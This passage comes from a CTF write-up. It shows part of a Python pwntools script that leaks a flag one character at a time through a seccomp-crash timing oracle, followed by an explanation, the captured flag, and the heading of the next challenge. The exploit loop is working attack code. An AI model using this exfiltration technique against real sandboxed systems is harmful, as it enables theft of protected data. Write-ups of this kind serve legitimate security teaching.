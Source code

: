 ```python
        p.recv(timeout=0.5)
    except:
        # Connection closed on us, wrong guess
        p.close()
        return False

    # Connection stayed open, correct guess
    p.close()
    return True


flag = "SEE{"

# Not specifying stop here since we don't know how long the flag is
while True:
    # Guess every character
    #"SEE{REDACTED}":
    #string.printable:
    for c in string.printable:
        print("Trying char: " + c)

        # If we found this char, break and move to the next
        if tryChar(c, len(flag)):
            flag += c
            print(f"Flag is now: {flag}")
            break

    else:
        # If we hit this, we're probably done reading the flag
        break

print("Flag: " + flag)

```
The stage 2 shellcode reads the "flag" file into memory and then checks each character against a guessed character. If the guess is correct, the shellcode enters an infinite loop, keeping the connection open. If the guess is incorrect, the shellcode performs a syscall not allowed by seccomp, causing the program to terminate and close the connection. The script starts with an empty flag and a set of possible characters. For each position in the flag, it iterates over the possible characters and uses the tryChar function to test each one. If the connection remains open, the guessed character is appended to the flag and the script moves on to the next position. This process continues until all positions have been guessed correctly.  

FLAG: **SEE{n1c3_sh3llc0ding_d6e25f87c7ebeef6e80df23d32c42d00}**


## Misc / NoCode
### Description
![](https://s3.eu-north-1.amazonaws.com/julianhal/uploads/7db7f638-233b-4441-8904-2c9593b494d6.png)

